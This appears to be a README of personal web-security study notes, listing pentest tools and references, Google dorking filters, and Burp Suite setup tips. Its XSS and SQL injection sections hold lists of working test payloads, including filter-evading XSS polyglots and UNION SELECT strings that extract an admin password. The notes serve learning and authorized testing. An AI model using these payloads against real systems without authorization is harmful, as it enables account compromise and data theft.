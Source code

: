 # Security

## Tools

[Base64 Decode and Encode](https://www.base64decode.org/)    
[Wappalyze](https://www.wappalyzer.com/) - Find out the technology stack of a website.  
[SecLists](https://github.com/danielmiessler/SecLists) - A collection of lists used during security assessments.     
[Sublist3r](https://github.com/aboul3la/Sublist3r) - Collects and gathers subdomains for a target domain.    
[fuff](https://github.com/ffuf/ffuf) - Web fuzzer.    
[Wfuzz](https://github.com/xmendez/wfuzz) - Web fuzzer.    
[XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter) - Performs Blind XSS attacks and captures cookies, URLs, page contents.   
[XSStrike](https://github.com/s0md3v/XSStrike) - A Cross Site Scripting detection suite.      
[Burp Suite](https://portswigger.net/burp) - A tool for performing security testing of web applications.     

## Reading

[OWASP Top 10](https://owasp.org/Top10/)     
[OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)      
[Postgres SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)    
[Bug Bounty Cheatsheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)     
[Command Injection Payload List](https://github.com/payloadbox/command-injection-payload-list)     

## Videos

[A Starters Guide to Pentesting with OWASP](https://www.youtube.com/watch?v=AO_sqXb-gKE)     

## Frameworks

A set of guidelines and best practices to help organizations build and improve their cybersecurity. Frameworks are a blueprint for managing risk and reducing vulnerabilities.

[OWASP](https://owasp.org/)    
[NCSC CAF](https://www.ncsc.gov.uk/collection/caf/caf-principles-and-guidance)    
[NIST](https://www.nist.gov/cyberframework)    

## Notes

### Google Hacking

[Google Hacking](https://en.wikipedia.org/wiki/Google_hacking) is a technique that uses Google Search and other Google applications to find security holes.

| Filter  | Example | 
| ------------- | ------------- | 
| site  | site:example.com  | 
| filetype  | filetype:csv  | 
| inurl  | inurl:admin  | 
| intitle  | intitle:admin  | 

**Example:** "-site:www.example.com site:*.example.com" would only contain results leading to the domain name example.com but exclude any links to www.example.com.

### Cross-site Scripting (XSS)

[OWASP XSS Overview](https://owasp.org/www-community/attacks/xss/)      
[THM XSS Room](https://tryhackme.com/room/xssgi)

```
<script>alert('XSS');</script>    
"><script>alert('XSS');</script>    
</textarea><script>alert('XSS');</script>    
';alert('XSS');//    
<sscriptcript>alert('XSS');</sscriptcript>    
/images/cat.jpg" onload="alert('XSS');    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
<iframe src=\"javascript:alert(XSS)\">    
<iframe src="javascript:alert(`XSS`)">    
```

### SQL Injection

[OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)     
[W3Schools SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)      
[THM SQL Injection](https://tryhackme.com/room/sqlinjectionlm)      
[OWASP Testing_PostgreSQL](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.4-Testing_PostgreSQL)

- Inband: data is extracted using the same channel that is used to inject the SQL code. This is the most straightforward kind of attack, in which the retrieved data is presented directly in the application web page.
- Out-of-band: data is retrieved using a different channel (e.g., an email with the results of the query is generated and sent to the tester).
- Inferential or Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.

```
;
'
' OR 1=1;--
1 UNION SELECT 1,2
%00' UNION SELECT password FROM Users WHERE username='admin'--
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
UNION ALL SELECT user,NULL,NULL--
```

### Burp Suite

[THM Burp Suite Basics](https://tryhackme.com/room/burpsuitebasics)         
[FoxyProxy](https://addons.mozilla.org/en-GB/firefox/addon/foxyproxy-basic/)

Set up browser proxy and certificate. Turn intercept on and in proxy options configure rules - "Or Request Was Intercepted", "And URL Is in target scope". Send to repeater or send to intruder.

- Browser hanging - Turn off Intercept.      
- Can't intercept - Update Scope.

